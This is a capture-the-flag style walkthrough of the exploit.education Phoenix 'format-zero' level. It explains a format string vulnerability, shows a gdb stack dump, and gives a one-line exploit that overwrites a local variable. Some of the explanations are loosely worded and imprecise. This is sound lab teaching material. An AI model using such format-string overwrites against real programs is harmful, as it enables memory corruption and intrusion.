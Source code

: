 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Format Zero:
This level has format string vulnerability.We need to change the value of `locals.changeme` by overflowing the `dest` buffer.This user controlled input is passed to `buffer` with function `fgets` which limit the number of characters we can store in `buffer` to 16.To overcome this limitation we will use format parameter `%x`that will read 1 byte of memory address.

 <br/>

When we pass a user controller input to `printf` without the correct formating to it.It will read the string and if it encounter any format parameters it will evaluate them.
```c
int main(){
    printf("%x");
}
// Output : ffffe5f8
```

<br/>
It read `%x` and print a value from the stack.Using the field width with the format parameters we can controll the length of the read, for example, `%32x` will print 24 space then a value from the stack.

<br/>

`sprintf` function used to write formated ouput to `dest` buffer.If we pass `%32x` it will write the 24 space and 8 hexdecimal value from the stack after the 32 byte it where `changeme` is placed.

```bash
gdb format-zero.c
(gdb) disas main
   <----------------------------------------------------->
   0x0000000000400705 <+104>:	call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070d <+112>:	test   eax,eax
   0x000000000040070f <+114>:	je     0x40071d <main+128>
   0x0000000000400711 <+116>:	mov    edi,0x4007f8
   <------------------------------------------------------->
(gdb) b *main+112
Breakpoint 1 at 0x40070d
(gdb) run
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAA

Breakpoint 1, 0x000000000040070d in main ()
(gdb) x/12gx $rsp
0x7fffffffe4f0:	0x00007fffffffe598	0x0000000100000000
0x7fffffffe500:	0x4141414178323325	0x000000000000000a
0x7fffffffe510:	0x2020202020202020	0x2020202020202020
0x7fffffffe520:	0x2020202020202020	0x3030356566666666
0x7fffffffe530:	0x0000000a41414141	0x0000000000000000
0x7fffffffe540:	0x0000000000000001	0x00007ffff7d8fd62
(gdb) c
Continuing.
Well done, the 'changeme' variable has been changed!
[Inferior 1 (process 398) exited normally]
```
The value of `changeme` has changed to AAAA.

### Exploit:

```bash
python -c "print '%32xAAAA'" | ./format-zero 
```